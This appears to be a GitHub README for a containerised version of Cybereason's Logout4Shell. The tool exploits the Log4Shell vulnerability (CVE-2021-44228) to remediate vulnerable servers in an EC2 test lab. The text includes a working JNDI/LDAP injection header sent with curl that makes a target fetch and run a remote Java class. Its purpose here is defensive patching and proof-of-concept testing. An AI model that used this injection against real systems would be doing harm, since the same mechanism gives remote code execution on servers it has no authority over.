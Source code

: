 # Logout4Shell Container

## Description

Since the disclosure of the Apache Log4j vulnerability affecting versions 2.0 through 2.14.1 in December of 2021, enterprises and small businesses have made it a priority to mitigate this risk. This vulnerability was given the highest possible severity rating of 10 when the CVE-2021-44228 was published on December 9, 2021 which allows remote code execution on vulnerable servers. 

With the guidance from the Apache software foundation, the best mitigation against this vulnerability is to patch log4j to 2.17.0 and above. In response to this 
vulnerability organizations like Cybereason and FullHunt have developed tools to scan for the vulnerability and mitigate this risk without the need to patch 
or restart the server.

Logout4Shell Container is not intended to take any credit for the research and development of these tools, but was developed for POC and ease of deployment.

More information regarding these tools can be found on [Cybereason Logout4Shell](https://github.com/Cybereason/Logout4Shell/blob/main/README.md) and 
[FullHunt log4j-scan](https://github.com/fullhunt/log4j-scan/blob/master/README.md)


## How Logout4Shell Container works

The Logout4Shell Container is an application consisting of the Cybereason Logout4Shell webserver and LDAP server. When a JNDI lookup with an appropriate HTTP header is sent to the vulnerable app, log4j interpolates the string and queries the LDAP server. The LDAP server then provides directory information for the Java class which is hosted on the webserver through the Transient and Persistent payloads. The payload remediates the log4j vulnerabilty by changing the FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS value from False to True. A quick warning that I haven't used this remediation in a production environment. More information regarding the potential impact it may have in a production environment can be read in Cybereason's documentation.

## POC Test Environment

- Logout4Shell Container deployed via Docker on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance.
- FullHunt log4j scan deployed via Docker on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance.
- Vulnerable app deployed via Docker on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance. More information regarding this vulnerable app can be found on [Log4Shell sample vulnerable application]( https://github.com/christophetd/log4shell-vulnerable-app/blob/main/README.md).

## Test Environment Setup

### Logout4Shell Container

1. Launch an EC2 instance with the user data script below. This will run an OS update, install and start the Docker engine, ensure that the Docker daemon starts after each system reboot, and install git:
```
#!/bin/bash
yum update -y
amazon-linux-extras install -y docker
service docker start
system reboot
systemctl enable docker
yum install -y git
```
2. SSH into your instance and install the latest version of Docker Compose:
```
sudo curl -L "https://github.com/docker/compose/releases/download/1.29.2/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
```
3. Adjust permissions:
```
sudo chmod +x /usr/local/bin/docker-compose
```
4. Clone Logout4Shell Container repository:
```
git clone https://github.com/gbarretto/logout4shell-container.git
```
5. Change directory to logout4shell-container.
```
cd logout4shell-container
```
6. Open var.env in GNU nano to edit.
```
nano var.env
```
7. Replace ```<host_ip>``` with the public IP address of the EC2 instance making sure to keep quotation marks.  
8. Replace ```<mode_type>``` with Transient or Persistent making sure to keep quotation marks. 
9. Press ```Control + X``` to bring you to Save modified buffer question. Then press ```Y```. Then press ```Enter``` to write changes to var.env file.
10. Run the command below to add the ec2-user to the docker group so you can execute Docker commands without using sudo:
```
sudo usermod -a -G docker ec2-user
```
11. Log out of your SSH session using ```exit``` and log back in again to pick up the new docker group permissions. 
12. Change directory to logout4shell-container:
```
cd logout4shell-container
```
13. Build Docker images using the command below:
```
docker-compose build
```
- When images are successfully built you'll see:
```
Successfully built XXXXXXXXXXXX
Successfully tagged gbarretto/cybereason:ldap-persistent
```
14. Launch the container in detached mode:
```
docker-compose up -d
```
- When the containers is successfully launched you'll see:
```
Creating network "logout4shell-container_default" with the default driver
Creating webserver       ... done
Creating ldap-persistent ... done
```

### FullHunt log4j scan
1. Launch an EC2 instance with the same user data script from above.
2. SSH into your instance in a new terminal window and run the commands below to build the FullHunt log4j scan.
```
git clone https://github.com/fullhunt/log4j-scan.git
cd log4j-scan
sudo docker build -t log4j-scan .
```

### Vulnerable app
1. Launch an EC2 instance with the same user data script from above. Adjust the security group to allow inbound connection from the IP address of the Logout4Shell container on ports 1389, 8888 and 443 and from the IP address of the FullHunt log4j scan on port 443.
3. SSH into your instance in a new terminal window and run the command below to run the vulnerable app via Docker.
```
docker run --name vulnerable-app --rm -p 443:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```
- You want to make sure this container isn't publicly accessible.

### Adjust Security Group for Logout4Shell Container
1. In the AWS Management Console adjust the security group for the Logout4Shell Container to allow inbound connection from the IP address of the Vulnerable App on ports 1389 and 8888.

## How it works
1. Let's first vaildate that the Vulnerable app is indeed vulnerable. From the FullHunt log4j scan terminal window, execute the command below replacing ```<Vulnerable_App_IP_Address>``` with the IP address of the Vulnerable app instance.
```
sudo docker run -it --rm log4j-scan -u http://<Vulnerable_App_IP_Address>:443
```
- After a few seconds you should receive the following response:
```
[!!!] Target Affected
```
2. To vaccinate the Vulnerable app run the command below from the Logout4Shell Container terminal window replacing ```<Vulnerable_App_IP_Address>``` with the IP address of the Vulnerable app instance and ```<Logout4Shell_Container_IP_Address>``` with the IP address of the Logout4Shell Container instance:
```
curl <Vulnerable_App_IP_Address>:443 -H 'X-Api-Version: ${jndi:ldap://<Logout4Shell_Container_IP_Address>:1389/a}'
```
- After a few seconds you should receive a similar response in the Vulnerable app terminal window:
```
HelloWorld                               : Received a request for API version ${jndi:ldap://XX.XX.XXX.XXX:1389/a}
```
- If you scroll up in the same window you should see the output below validating the Transient or Persistent payload was executed:
```
Setting FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS value to True
````
3. Run the FullHunt log4j scan again and you should receive the output below validating the log4j vulnerability has been remediated:
```
[•] Targets do not seem to be vulnerable.
```
